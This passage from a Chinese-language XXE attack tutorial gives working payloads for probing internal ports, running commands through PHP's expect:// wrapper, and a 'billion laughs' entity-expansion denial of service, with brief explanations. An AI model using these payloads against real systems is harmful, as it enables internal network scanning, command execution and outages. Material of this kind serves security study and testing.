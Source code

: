 
  pare的第一行内容为`<!ENTITY % para2 "<!ENTITY % error SYSTEM 'file:///%para1;'>">`

### 3. 内网探测

和读文件差不多，只不过把URI改成内网机器地址

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
	<!ELEMENT foo ANY >
	<!ENTITY rabbit SYSTEM "http://192.168.1.1：81/mark4z5" >
]>
<user>
<firstname>&rabbit;</firstname>
<lastname>666</lastname>
</user>
```

![image-20220811145102265](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145102265.png)

![image-20220811145112839](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145112839.png)

该CASE是探测192.168.1.1的80、81端口，通过返回的“Connection refused”可以知道该81端口是closed的，而80端口是open的。

### 4. RCE

![image-20220811145231455](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145231755.png)

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令，其他协议也有可能可以执行系统命令。

### 5. DOS

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
